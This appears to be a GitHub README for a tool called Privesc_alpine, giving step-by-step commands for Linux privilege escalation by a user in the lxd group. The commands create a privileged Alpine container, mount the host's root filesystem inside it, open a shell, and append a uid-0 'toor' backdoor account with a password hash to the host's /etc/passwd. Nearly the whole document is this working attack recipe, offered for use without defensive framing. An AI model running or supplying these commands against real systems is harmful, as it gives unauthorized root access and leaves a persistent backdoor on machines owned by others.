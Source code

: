 # Privesc_alpine
This alpine for linux privesc. Its works when the user is part of lxd group.

# Usage:
```
unzip alpine.zip
lxd init 
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
echo 'toor:$1$59HXrY3W$3S7e8e0mMS5o/ZuPoJjsk0:0:0:root:/root:/bin/sh' >> /mnt/root/etc/passwd
```
![image](https://github.com/H3EXX/Privesc_alpine/assets/111686217/6d54849c-d9da-4897-a768-41e2507f73eb)

![image](https://github.com/H3EXX/Privesc_alpine/assets/111686217/17de3d80-c70d-43b5-be91-8217260d61d7)


